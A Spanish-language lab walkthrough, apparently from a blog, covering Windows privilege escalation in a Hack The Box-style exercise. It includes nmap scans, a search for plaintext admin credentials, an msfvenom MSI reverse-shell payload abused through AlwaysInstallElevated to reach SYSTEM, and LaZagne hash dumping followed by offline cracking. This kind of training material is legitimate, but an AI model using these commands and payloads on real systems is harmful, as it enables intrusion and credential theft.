










Laboratorio de Escalada de Privilegios locales en Windows - Parte 2

Enunciado
Como complemento a su prueba de penetración anual, INLANEFREIGHT le ha solicitado que realice una revisión de seguridad de su imagen estándar de Windows 10, actualmente en uso por más de 1200 empleados en todo el mundo. El nuevo CISO está preocupado porque no se siguieron las mejores prácticas al establecer la imagen base y porque podría haber uno o más vectores de escalada de privilegios locales en la compilación. Ante todo, el CISO desea proteger la infraestructura interna de la empresa, asegurándose de que un atacante que logre acceder a una estación de trabajo (mediante un ataque de phishing, por ejemplo) no pueda escalar privilegios ni utilizar ese acceso para moverse lateralmente por la red. Debido a requisitos normativos, los empleados de INLANEFREIGHT no tienen privilegios de administrador local en sus estaciones de trabajo.
Se le ha concedido una cuenta de usuario estándar con acceso RDP a una réplica de una estación de trabajo Windows 10 estándar sin acceso a internet. El cliente desea una evaluación lo más exhaustiva posible (es probable que contrate a su empresa para probar o intentar eludir los controles EDR en el futuro); por lo tanto, Defender se ha deshabilitado. Debido a las normativas vigentes, no pueden permitir el acceso a internet al equipo, por lo que deberá transferir usted mismo las herramientas necesarias.
Enumera completamente el host e intenta escalar privilegios hasta obtener acceso de nivel administrador/SYSTEM.
Empezamos con el reconocimiento inicial de la máquina haciendo escaneos para ver que puertos y servicios están corriendo
nmap -p- -sS --min-rate 1000 -n -Pn <IP> -oN scan1.txt

nmap -p135,139,445,3389,5040,7680 -sCV -n -Pn 10.129.117.106 -oN scan2.txt

Encuentre las credenciales en texto plano que quedaron sin usar para la cuenta de administrador de dominio iamtheadministrator.
Dado que nuestra primera flag es encontrar credenciales en texto plano luego de conectarnos vamos a utilizar el comando findstr
findstr /SIM /C:"iamtheadministrator" C:\*.* 2>/null
Lo que vamos a hacer aquí es buscar todas las coincidencias con la cadena iamtheadministrator en la particion C:\ y nos redirigimos los errores de permisos a null para que no nos salgan en pantalla.

Vemos que tenemos 2 archivos, uno es el ConsoleHost_history.txt que revisando la coincidencia es básicamente el propio comando que acabamos de escribir y el otro archivo es este:

Eleve los privilegios a SYSTEM y envíe el contenido del archivo flag.txt desde el escritorio del administrador. Seguimos analizando la máquina y, apoyándonos en la herramienta SharpUp.exe, la descargamos en nuestra máquina de trabajo y la copiamos a la víctima. Para servir el binario desde nuestro equipo local ejecutamos un servidor web simple con Python:
python3 -m http.server
Y en la víctima la descargamos:
Invoke-WebRequest -Uri "http://<Nuestra_IP>:8000/SharpUp.exe" -OutFile ./SharpUp.exe
Al ejecutar SharpUp.exe obtenemos el siguiente resultado: los registros HKCU y HKLM aparecen con valor 1. Esto indica que la política AlwaysInstallElevated está habilitada tanto en el contexto de usuario (HKCU) como en el de sistema (HKLM).
En otras palabras, el instalador de Windows (MSI) permite instalaciones elevadas desde la cuenta de usuario, lo que constituye un vector de escalada de privilegios (es posible ejecutar paquetes MSI con privilegios SYSTEM si se aprovecha correctamente).

Al comprobarlos efectivamente están en 1.
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
 Por lo que lo siguiente que vamos a hacer es un payload con extensión
Por lo que lo siguiente que vamos a hacer es un payload con extensión .msi para ejecutarlo en el servidor a ver si nos lo ejecuta con altos privilegios.
En local:
msfvenom -p windows/shell_reverse_tcp LHOST=<Nuestra_IP> LPORT=4444 -f msi > shell.msi

Al igual que el SharpUp.exe nos copiamos nuestra shell a la máquina víctima con nuestro servidor python.
python3 -m http.server
Y en la víctima la descargamos:
Invoke-WebRequest -Uri "http://<Nuestra_IP>:8000/shell.msi" -OutFile ./shell.msi
Antes de ejecutarlo en la víctima nos ponemos en escucha por el puerto 4444. Recomiendo utilizar la herramienta penelope.
Ejecutamos la shell
msiexec.exe /quiet /qn /i C:\Users\htb-student\Downloads\shell.msi

Y debemos haber capturado la sesión como SYSTEM .
Ahora solo leemos la flag en el escritorio del Administrador.

En este sistema existe un usuario administrador local deshabilitado con una contraseña débil que podría utilizarse para acceder a otros sistemas de la red, por lo que conviene informar al cliente. Tras elevar los privilegios, obtenga el hash NTLM de este usuario y descífrelo sin conexión. Envíe la contraseña en texto plano de esta cuenta.
Ya con privilegios de SYSTEM nos vamos a apoyar en la herramienta Lazagne.exe donde nos va a lanzar los hashes de todos lo usuarios de la máquina.
Nos la vamos a descargar igual que el resto de herramientas y pasarla la máquina víctima. Nos apyamos de una sesión de htb-student para descargarnos la herramienta.
python3 -m http.server
Y en la víctima la descargamos:
Invoke-WebRequest -Uri "http://<Nuestra_IP>:8000/LaZagne.exe" -OutFile ./Lazagne.exe
Y luego en la reverse-shell que tenemos con privilegios de SYSTEM la ejecutamos.
Lazagne.exe all
 Simplemente lo crackeamos y tenemos el password en texto plano. Te dejo la url Crackstation.
 Si te sirvió de algo este tutorial ya para mi es más que suficiente, si me puedes decir en que podemos mejorar te lo voy a agradecer un montón.
Escríbeme por cualquiera de las vías